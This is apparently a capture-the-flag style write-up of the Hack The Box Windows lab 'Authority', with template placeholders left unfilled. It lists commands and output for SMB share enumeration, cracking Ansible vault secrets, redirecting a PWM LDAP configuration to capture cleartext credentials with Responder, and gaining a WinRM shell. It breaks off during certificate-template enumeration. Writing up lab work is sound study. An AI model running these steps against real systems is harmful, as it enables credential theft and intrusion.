


| Property         | Value                    |
| ---------------- | ------------------------ |
| **OS**           | Windows                  |
| **Difficulty**   | Medium                   |
| **Release Date** | 15th July, 2023          |
| **State**        | YYYY-MM-DD               |
| **IP**           | 10.10.10.X               |
| **Techniques**   | technique-1, technique-2 |
| **Tags**         | #web #privesc #linux     |

---
## Summary

Brief 2-3 sentence ogverview of the machine and attack path.

---
## Enumeration

### Nmap Scan

```
sudo nmap -sV -sC 10.129.229.56 --open
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-10 09:01 EDT
Nmap scan report for 10.129.229.56
Host is up (0.028s latency).
Not shown: 946 closed tcp ports (reset), 40 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-10 17:01:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-10-10T17:02:37+00:00; +4h00m02s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-10-10T17:02:38+00:00; +4h00m02s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-10-10T17:02:37+00:00; +4h00m02s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-10-10T17:02:38+00:00; +4h00m02s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp open  ssl/http      Apache Tomcat (language: en)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2026-10-08T14:58:38
|_Not valid after:  2028-10-10T02:37:02
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-10-10T17:02:32
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 4h00m01s, deviation: 0s, median: 4h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.50 seconds
                                                                  
```

port 8443 stands out as it is unusal compared to the standard AD set

```
┌──(kali㉿kali)-[~/machines/authority]
└─$ echo '10.129.229.56 authority.htb' | sudo tee -a /etc/hosts
10.129.229.56 authority.htb
                                                        
```

PMW shows to be in configuration mode

**PWM** (Password Manager) is n open-source, web-based self-service password and account management application designed to work with **Microsoft Active Directory** and other LDAP directories




### SMB Enumeration

Shares enumeration reveals two not-defualt shares

```
 smbclient -N -L \\authority.htb       

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Department Shares Disk      
        Development     Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to authority.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

Department shares is inaccessible:

```
smbclient -N '//authority.htb/Department Shares'

Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> 

```

```
 smbclient -N \\\\authority.htb\\Development             
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 17 09:20:38 2023
  ..                                  D        0  Fri Mar 17 09:20:38 2023
  Automation                          D        0  Fri Mar 17 09:20:40 2023

                5888511 blocks of size 4096. 1496891 blocks available
smb: \> cd Automation
smb: \Automation\> ls
  .                                   D        0  Fri Mar 17 09:20:40 2023
  ..                                  D        0  Fri Mar 17 09:20:40 2023
  Ansible                             D        0  Fri Mar 17 09:20:50 2023

                5888511 blocks of size 4096. 1496891 blocks available
smb: \Automation\> cd Ansible
smb: \Automation\Ansible\> ls
  .                                   D        0  Fri Mar 17 09:20:50 2023
  ..                                  D        0  Fri Mar 17 09:20:50 2023
  ADCS                                D        0  Fri Mar 17 09:20:48 2023
  LDAP                                D        0  Fri Mar 17 09:20:48 2023
  PWM                                 D        0  Fri Mar 17 09:20:48 2023
  SHARE                               D        0  Fri Mar 17 09:20:48 2023

                5888511 blocks of size 4096. 1496891 blocks available
smb: \Automation\Ansible\> 

```

```
smb: \Automation\Ansible\> cd PWM
smb: \Automation\Ansible\PWM\> ls
  .                                   D        0  Fri Mar 17 09:20:48 2023
  ..                                  D        0  Fri Mar 17 09:20:48 2023
  ansible.cfg                         A      491  Thu Sep 22 01:36:58 2022
  ansible_inventory                   A      174  Wed Sep 21 18:19:32 2022
  defaults                            D        0  Fri Mar 17 09:20:48 2023
  handlers                            D        0  Fri Mar 17 09:20:48 2023
  meta                                D        0  Fri Mar 17 09:20:48 2023
  README.md                           A     1290  Thu Sep 22 01:35:58 2022
  tasks                               D        0  Fri Mar 17 09:20:48 2023
  templates                           D        0  Fri Mar 17 09:20:48 2023

                5888511 blocks of size 4096. 1496891 blocks available
smb: \Automation\Ansible\PWM\> cd ansible_inventory
cd \Automation\Ansible\PWM\ansible_inventory\: NT_STATUS_NOT_A_DIRECTORY
smb: \Automation\Ansible\PWM\> more ansible_inventory
getting file \Automation\Ansible\PWM\ansible_inventory of size 174 as /tmp/smbmore.yza2On (1.5 KiloBytes/sec) (average 7.1 KiloBytes/sec)
smb: \Automation\Ansible\PWM\> 

```

(that this not turned out to be useful)
```
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore
/tmp/smbmore.yza2On (END)

```

```
smb: \Automation\Ansible\PWM\defaults\> ls
  .                                   D        0  Fri Mar 17 09:20:48 2023
  ..                                  D        0  Fri Mar 17 09:20:48 2023
  main.yml                            A     1591  Sun Apr 23 18:51:38 2023

                5888511 blocks of size 4096. 1496875 blocks available
smb: \Automation\Ansible\PWM\defaults\> more main.yml
getting file \Automation\Ansible\PWM\defaults\main.yml of size 1591 as /tmp/smbmore.ypHcYA (6.6 KiloBytes/sec) (average 7.0 KiloBytes/sec)
smb: \Automation\Ansible\PWM\defaults\> 

```

Looking into main.yml reveals a set of encrypted passwords:

```
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
/tmp/smbmore.ypHcYA (END)

```

```
smb: \Automation\Ansible\PWM\meta\> ls
  .                                   D        0  Fri Mar 17 09:20:48 2023
  ..                                  D        0  Fri Mar 17 09:20:48 2023
  main.yml                            A      199  Thu Sep 22 01:31:36 2022

                5888511 blocks of size 4096. 1496874 blocks available
smb: \Automation\Ansible\PWM\meta\> more main.yml
getting file \Automation\Ansible\PWM\meta\main.yml of size 199 as /tmp/smbmore.zUGEb0 (1.7 KiloBytes/sec) (average 5.7 KiloBytes/sec)
smb: \Automation\Ansible\PWM\meta\> 

```

```
galaxy_info:
  author: Authority
  description: PWM web service
  license: GPLv2
  min_ansible_version: 1.5
  platforms:
  - name: Windows
    versions:
    - v1
  categories:
  - web
  - system
```

The hashes are downloaded locally and cracked.

Cracking hashes:

```
cat > admin_pass.txt << 'EOF'
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531
EOF
                                                                                                                
┌──(kali㉿kali)-[~/machines/authority]
└─$ cat > ldap.txt << 'EOF'
$ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764
EOF

```

```
john admin_pass.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 256/256 AVX2 8x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (admin_pass.txt)     
1g 0:00:00:07 DONE (2026-10-10 11:08) 0.1265g/s 5038p/s 5038c/s 5038C/s 051790..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                
┌──(kali㉿kali)-[~/machines/authority]
└─$ john ldap.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 256/256 AVX2 8x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (ldap.txt)     
1g 0:00:00:08 DONE (2026-10-10 11:08) 0.1242g/s 4945p/s 4945c/s 4945C/s 051790..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                         
```

```
 john admin_login.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 256/256 AVX2 8x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (admin_login.txt)     
1g 0:00:00:07 DONE (2026-10-10 11:10) 0.1269g/s 5051p/s 5051c/s 5051C/s 051790..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

```
┌──(kali㉿kali)-[~/machines/authority]
└─$ ansible-vault decrypt admin_login.txt --vault-password-file=<(echo '!@#$%^&*') --output=-
Decryption successful
svc_pwm                                                                                                                
┌──(kali㉿kali)-[~/machines/authority]
└─$ ansible-vault decrypt admin_pass.txt --vault-password-file=<(echo '!@#$%^&*') --output=-
Decryption successful
pWm_@dm!N_!23                                                                                                                
┌──(kali㉿kali)-[~/machines/authority]
└─$ ansible-vault decrypt ldap.txt --vault-password-file=<(echo '!@#$%^&*') --output=-
Decryption successful
DevT3st@123        
```

using the recovered pass is it possible to connect to the https://authority.htb:8443/pwm/private/config/editor endpoint and change the ldap server to authenticate against the attacker host

```
sudo responder -I tun0
```

clicking on "Test LDAP profile"

```
[+] Listening for events...                                                                                     

[LDAP] Cleartext Client   : 10.129.229.56
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[*] Skipping previously captured cleartext password for CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb                                                                                                             
```

```
nxc ldap authority.htb -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
LDAP        10.129.229.56   389    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
LDAP        10.129.229.56   389    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 

```

---
```
smbclient -U svc_ldap '//authority.htb/Department Shares' --password=lDaP_1n_th3_cle4r!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 28 13:59:41 2023
  ..                                  D        0  Tue Mar 28 13:59:41 2023
  Accounting                          D        0  Tue Mar 28 13:59:37 2023
  Finance                             D        0  Tue Mar 28 13:57:24 2023
  HR                                  D        0  Tue Mar 28 13:57:12 2023
  IT                                  D        0  Tue Mar 28 13:57:15 2023
  Marketing                           D        0  Tue Mar 28 13:57:08 2023
  Operations                          D        0  Tue Mar 28 13:57:28 2023
  R&D                                 D        0  Tue Mar 28 13:57:20 2023
  Sales                               D        0  Tue Mar 28 13:58:54 2023

                5888511 blocks of size 4096. 1496595 blocks available

```

```
smbmap -H authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -s 'Department Shares' -r

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...                                                                                  [|] Checking for open ports...                                                                                  [/] Checking for open ports...                                                                                  [-] Checking for open ports...                                                                                  [\] Checking for open ports...                                                                                  [|] Checking for open ports...                                                                                  [*] Detected 1 hosts serving SMB
[/] Initializing hosts...                                                                                       [-] Initializing hosts...                                                                                       [\] Initializing hosts...                                                                                       [|] Initializing hosts...                                                                                       [/] Authenticating...                                                                                           [-] Authenticating...                                                                                           [\] Authenticating...                                                                                           [|] Authenticating...                                                                                           [/] Authenticating...                                                                                           [-] Authenticating...                                                                                           [*] Established 1 SMB connections(s) and 1 authenticated session(s)
[\] Authenticating...                                                                                           [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Enumerating shares...                                                                                       [-] Enumerating shares...                                                                                       [\] Enumerating shares...                                                                                       [|] Enumerating shares...                                                                                       [/] Traversing shares...                                                                                        [-] Traversing shares...                                                                                        [\] Traversing shares...                                                                                        [|] Traversing shares...                                                                                        [/] Traversing shares...                                                                                        [-] Traversing shares...                                                                                        [\] Traversing shares...                                                                                        [|] Traversing shares...                                                                                        [/] Traversing shares...                                                                                        [-] Traversing shares...                                                                                                                                                                                            
[+] IP: 10.129.229.56:445       Name: authority.htb             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Department Shares                                       READ ONLY
        ./Department Shares
        dr--r--r--                0 Tue Mar 28 13:59:41 2023    .
        dr--r--r--                0 Tue Mar 28 13:59:41 2023    ..
        dr--r--r--                0 Tue Mar 28 13:59:41 2023    Accounting
        dr--r--r--                0 Tue Mar 28 13:59:26 2023    Finance
        dr--r--r--                0 Tue Mar 28 13:59:26 2023    HR
        dr--r--r--                0 Tue Mar 28 13:59:26 2023    IT
        dr--r--r--                0 Tue Mar 28 13:59:26 2023    Marketing
        dr--r--r--                0 Tue Mar 28 13:59:26 2023    Operations
        dr--r--r--                0 Tue Mar 28 13:59:26 2023    R&D
        dr--r--r--                0 Tue Mar 28 13:59:26 2023    Sales
        Development                                             READ ONLY
        ./Development
        dr--r--r--                0 Fri Mar 17 09:37:34 2023    .
        dr--r--r--                0 Fri Mar 17 09:37:34 2023    ..
        dr--r--r--                0 Fri Mar 17 09:37:52 2023    Automation
        IPC$                                                    READ ONLY       Remote IPC
        ./IPC$
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    InitShutdown
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    lsass
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    ntsvcs
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    scerpc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-38c-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    epmapper
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-1e0-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    LSM_API_service
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    eventlog
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-44c-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    atsvc
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    wkssvc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-64c-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-278-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-278-1
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-7e8-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    RpcProxy\49694
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    124f2ac0fae46f5c
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    RpcProxy\593
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    srvsvc
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    spoolss
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-bec-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    netdfs
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    vgauth-service
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    tapsrv
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    W32TIME_ALT
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-270-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    ROUTER
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-81c-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    cert
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-8f4-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    PSHost.134361178773101870.2056.DefaultAppDomain.powershell
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    MsFteWds
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    SearchTextHarvester
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-9ac-0
        NETLOGON                                                READ ONLY       Logon server share 
        ./NETLOGON
        dr--r--r--                0 Tue Aug  9 18:53:17 2022    .
        dr--r--r--                0 Tue Aug  9 18:53:17 2022    ..
        SYSVOL                                                  READ ONLY       Logon server share 
        ./SYSVOL
        dr--r--r--                0 Sat Apr 22 22:25:21 2023    .
        dr--r--r--                0 Sat Apr 22 22:25:21 2023    ..
        dr--r--r--                0 Sat Apr 22 22:25:21 2023    authority.htb
[\] Closing connections..                                                                                       [|] Closing connections..                                                                                       [/] Closing connections..                                                                                       [-] Closing connections..                                                                                       [\] Closing connections..                                                                                       [|] Closing connections..                                                                                       [/] Closing connections..                                                                                       [-] Closing connections..                                                                                       [*] Closed 1 connections                                                          
```

## Bloodhound enum

```
sudo bloodhound-python -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -ns 10.129.229.56 -d authority.htb -c all --zip
```

svc_ldap is memeber of remote management users

---
## User Flag

```
evil-winrm -i authority.htb -u svc_ldap -p lDaP_1n_th3_cle4r!
```

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                                                
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                           
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ls
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc_ldap> ls


    Directory: C:\Users\svc_ldap


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/24/2023  11:27 PM                3D Objects
d-r---        3/24/2023  11:27 PM                Contacts
d-r---        6/28/2023   6:38 PM                Desktop
d-r---        3/24/2023  11:27 PM                Documents
d-r---        3/24/2023  11:27 PM                Downloads
d-r---        3/24/2023  11:27 PM                Favorites
d-r---        3/24/2023  11:27 PM                Links
d-r---        3/24/2023  11:27 PM                Music
d-r---        3/24/2023  11:27 PM                Pictures
d-r---        3/24/2023  11:27 PM                Saved Games
d-r---        3/24/2023  11:27 PM                Searches
d-r---        3/24/2023  11:27 PM                Videos


*Evil-WinRM* PS C:\Users\svc_ldap> cd Desktop
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> ls


    Directory: C:\Users\svc_ldap\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/10/2026  10:59 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> type user.txt
52ad251332b3ed1c2fcfdcf015888a08
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> 

```

---
## Privilege Escalation

### Enumeration

```
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> cd c:\
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/23/2023   6:16 PM                Certs
d-----        3/28/2023   1:59 PM                Department Shares
d-----        3/17/2023   9:20 AM                Development
d-----         8/9/2022   7:00 PM                inetpub
d-----        3/24/2023   8:22 PM                PerfLogs
d-r---        3/25/2023   1:20 AM                Program Files
d-----        3/25/2023   1:19 AM                Program Files (x86)
d-----        4/23/2023   6:23 PM                pwm
d-r---        3/24/2023  11:27 PM                Users
d-----        7/12/2023   1:19 PM                Windows
-a----        8/10/2022   8:44 PM       84784749 pwm-onejar-2.0.3.jar


*Evil-WinRM* PS C:\> cd Certs
*Evil-WinRM* PS C:\Certs> ls


    Directory: C:\Certs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/23/2023   6:11 PM           4933 LDAPs.pfx


*Evil-WinRM* PS C:\Certs> download LDAPs.pfx
                                        
Info: Downloading C:\Certs\LDAPs.pfx to LDAPs.pfx
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Certs> 

```

cert enumeration:

```
 certipy-ad find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -vulnerable -stdout
```

```
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'AUTHORITY-CA'
[*] Checking web enrollment for CA 'AUTHORITY-CA' @ 'authority.authority.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
